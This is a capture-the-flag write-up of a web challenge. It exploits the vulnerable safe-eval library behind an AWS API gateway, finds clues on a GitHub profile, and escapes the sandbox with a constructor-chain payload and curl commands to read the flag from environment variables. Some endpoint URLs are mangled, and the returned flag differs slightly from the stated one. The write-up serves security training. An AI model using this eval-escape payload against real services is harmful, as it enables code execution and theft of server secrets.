

# Hold the line! Perimeter defences doing it's work!
*Apparently, the lead engineer left the company (“Safe Online Technologies”). He was a talented engineer and worked on many projects relating to Smart City. He goes by the handle c0v1d-agent-1. Everyone didn't know what this meant until COViD struck us by surprise. We received a tip-off from his colleagues that he has been using vulnerable code segments in one of a project he was working on! Can you take a look at his latest work and determine the impact of his actions! Let us know if such an application can be exploited!*

*[Tax Rebate Checker](http://z8ggp.tax-rebate-checker.cf/)*

### Challenge analysis
- This just seems to be an ordinary application hosted on the website, and looking from the source code (`main.js`) we can rougly tell that it is a React App.
- We have no choice but to look deeper into the source of the application, by formatting the code nicely and taking a better look.
- There is an interesting string in the application that appears twice: (although not important for this challenge; red herring) ```SECRET_DO_NOT_PASS_THIS_OR_YOU_WILL_BE_FIRED```
- Other than that, there isn't anything else interesting in the source code.

### RCE?!
- However, we do find an API gateway URL hidden inside the source, and is presumably the backend url to calculate the amount of tax rebate. (`https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`)
- The server accepts a JSON-encoded payload with 2 base-64 encoding string keys, `age` and `salary`.
- By trial and error, we find out that the formula is roughly `age + salary * PI`.
- We also notice that when we put an addition string into age (e.g. `1+1`), the value is treated as 2, meaning that the server actually evaluates the expression!
- Hence, we just need to perform some kind of remote code execution (RCE) on the system to obtain the flag.
- Through much trying and testing again, we realise that there is an unfortunate limit of 50 characters on the JSON payload, which include both the age and salary key names and their base-64 encoded values.
- Thus, it would be unlikely to find any useful information with the limited input size
- We did manage to obtain the local variable information using this payload for age: `Object.keys(this)` (this info is useful later on)  
```$ curl -X POST https://af7jsq9nlh.execute-api.ap-socom/prod/tax-rebate-checker -H "Content-Type: application/json" -d '{"age":"T2JqZWN0LmtleXModGhpcyk","salary":"MA"}'```  
```{"results":"SAFE_EVAL_227291,person,gc0"}```
- And the properties of `person` as well:
```$ curl -X POST https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker -H "Content-Type: application/json" -d '{"age":"T2JqZWN0LmtleXMocGVyc29uKQ","salary":"MA"}'```   
```{"results":"code0"}```
- Unfortunately, `person.code` is actually just the value of Pi, and our clues end here.

### Git Good
- We have to find other clues in the challenge, and in the challenge description it mentioned something about a handle.
- This leads us to suspect that the engineer has a profile somewhere on the internet, and as a software developer the likley platform would be GitHub.
- A quick search on GitHub yielded a [user profile](https://github.com/c0v1d-agent-1) that has the same name as his handle.  

- The user also had a repo with the exact name as the webpage, `tax-rebate-checker`
- Time to look at the repo!

### Testing in Production
- The repo contains an `index.js` file, upon inspection seems to be the backend server code for the API gateway.

```js
'use strict';
var safeEval = require('safe-eval')
exports.handler = async (event) => {
    let responseBody = {
        results: "Error!"
    };
    let responseCode = 200;
    try {
        if (event.body) {
            let body = JSON.parse(event.body);
            // Secret Formula
            let context = {person: {code: 3.141592653589793238462}};
            let taxRebate = safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
            responseBody = {
                    results: taxRebate
            };
        }
    } catch (err) {
        responseCode = 500;
    }
    let response = {
        statusCode: responseCode,
        headers: {
            "x-custom-header" : "tax-rebate-checker"
        },
        body: JSON.stringify(responseBody)
    };
    return response;
};
```
- Nothing really out of the normal here, but we do notice the use of the `safe-eval` library which is prone to RCE as seen [here](https://snyk.io/vuln/SNYK-JS-SAFEEVAL-608076) and [here](https://www.cvedetails.com/cve/CVE-2017-16088/)
- Looking at the commit history, we find the frontend code that was removed from the repo, and sadly to find nothing again in particular.
- An interesting find was in the [Issues](https://github.com/c0v1d-agent-1/tax-rebate-checker/issues/1) tab of the repo, which had 1 issue that described a vulnerable library (should be referring to `safe-eval`)
- Thus, we should sent requests instead to the `/staging/` endpoint instead of the `/prod/` one used earlier, which now should not have the length restrictions.
- Creating and modifying our payload from common RCE payloads, then submitting the request, we obtain the solution to this challenge.

Payload: `this.constructor.constructor("return process.env.flag")`  

Command: ```curl -X POST https://af7jsq9nlh.execute-api.ap-southeast-1.amazonawcom/staging/tax-rebate-checker -d '{"age":"dGhpcy5jb25zdHJ1Y3Rvci5jb25zdHJ1Y3RvcigicmV0dXJuIHByb2Nlc3MuZW52LmZsYWciKSgp","salary":"MA"}'```  
```{"results":"3nv_L0oK$-G$$D!0"}```

### Flag
```govtech-csg{3nv_L0oK$-G$$D!}```

### Learning Outcomes
1. There can be hints and clues hidden inside the challenge description itself, so do not spend too much time getting stuck on one part, but rather approach the challenge from a different angle.
2. Much trial and error is needed for this challenge, hence perseverance is very important to not give up and try until you get the results that you want.
3. Many other skills such as OSINT and Web/RCE are required for this challenge, it is always great to be well prepared for anything coming in your way and seek help from teammates whenever necessary.


